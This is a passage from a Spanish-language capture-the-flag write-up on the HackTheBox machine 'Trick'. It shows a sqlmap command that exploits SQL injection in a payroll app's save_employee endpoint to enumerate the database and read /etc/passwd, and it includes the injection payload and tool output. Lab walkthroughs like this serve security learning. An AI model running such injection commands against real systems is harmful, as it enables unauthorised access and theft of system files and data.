 <img
src="https://res.cloudinary.com/djc1umong/image/upload/v1686608861/trick_action_save_payroll_nmq0sy.webp"
alt="trick.htb image"
width={600}
height={225}
/>
<img
layout="responsive"
src="https://res.cloudinary.com/djc1umong/image/upload/v1686608895/trick_preprod_login_action_login_o5tc8x.webp"
alt="trick.htb image"
width={600}
height={204}
/>

al abrir el nuevo subdominio vemos que la url puede ser manipulada con el parametro <i>page=</i>

<img
src="https://res.cloudinary.com/djc1umong/image/upload/v1686608917/trick_page_var_sd2fv3.webp"
alt="trick.htb image"
width={600}
height={204}
/>

esto nos da a pensar que es sensible a <a src='https://owasp.org/www-community/attacks/Path_Traversal'>Path Traversal Attack</a>
sin embargo nosotros usaremos <i>sqlmap </i> con estos datos recolectados hasta ahora.

<img
src="https://res.cloudinary.com/djc1umong/image/upload/v1686608937/trick_burp_employee_anynmy.webp"
alt="trick.htb image"
width={812}
height={321}
/>

```powershell
root@loe# sqlmap --url "http://preprod-payroll.trick.htb/ajax.php?action=save_employee" --data "id=&firstname=loefirst&middlename=&lastname=loelast&department_id=1&position_id=1&salary=2000" --file-read "/etc/passwd" --batch --dbs --threads 10 --current-user --current-db
...

Parameter: id (POST)
Type: boolean-based blind
Title: Boolean-based blind - Parameter replace (original value)
Payload: id=(SELECT (CASE WHEN (2945=2945) THEN '' ELSE (SELECT 3662 UNION SELECT 7138) END))&firstname=loefirst&middlename=&lastname=loelast&department_id=1&position_id=1&salary=2000
---Rust Scan
[22:25:48] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Nginx 1.14.2
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[22:25:48] [INFO] fetching current user
[22:25:48] [INFO] retrieving the length of query output
[22:25:48] [INFO] resumed: 14
[22:25:48] [INFO] resumed: remo@localhost
current user: 'remo@localhost'
[22:25:48] [INFO] fetching current database
[22:25:48] [INFO] retrieving the length of query output
[22:25:48] [INFO] resumed: 10
[22:25:48] [INFO] resumed: payroll_db
current database: 'payroll_db'
...
[22:25:52] [INFO] fetching file: '/etc/passwd'
[22:25:52] [INFO] retrieving the length of query output
```